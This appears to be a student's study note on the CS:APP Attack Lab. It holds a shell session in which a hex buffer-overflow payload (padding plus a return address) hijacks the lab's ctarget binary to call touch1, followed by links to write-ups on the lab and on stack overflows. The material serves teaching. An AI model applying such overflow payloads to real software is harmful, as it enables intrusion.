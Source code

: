 ```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

- [Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)

- [ ] patchelf
- 一些可以参考的链接
	- [zhuanlan.zhihu.com/p/476396465](https://zhuanlan.zhihu.com/p/476396465)
	- [【CSAPP】AttackLab-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2389328)
	- [【深入理解计算机系统】CSAPP-实验三：AttackLab详解\_attacklab实验三-CSDN博客](https://blog.csdn.net/qq_42234461/article/details/108661775)
	- [Site Unreachable](https://wdxtub.com/csapp/thick-csapp-lab-3/2016/04/16/)
	- [CSAPP-Lab-3 实验报告: attacklab | 一隅](https://tqnwhz.github.io/blog/2023/12/04/CSAPP-Lab-3)
	- [zhuanlan.zhihu.com/p/104340864](https://zhuanlan.zhihu.com/p/104340864)
- 栈溢出
	- [zhuanlan.zhihu.com/p/25816426](https://zhuanlan.zhihu.com/p/25816426)
	- [zhuanlan.zhihu.com/p/25892385](https://zhuanlan.zhihu.com/p/25892385)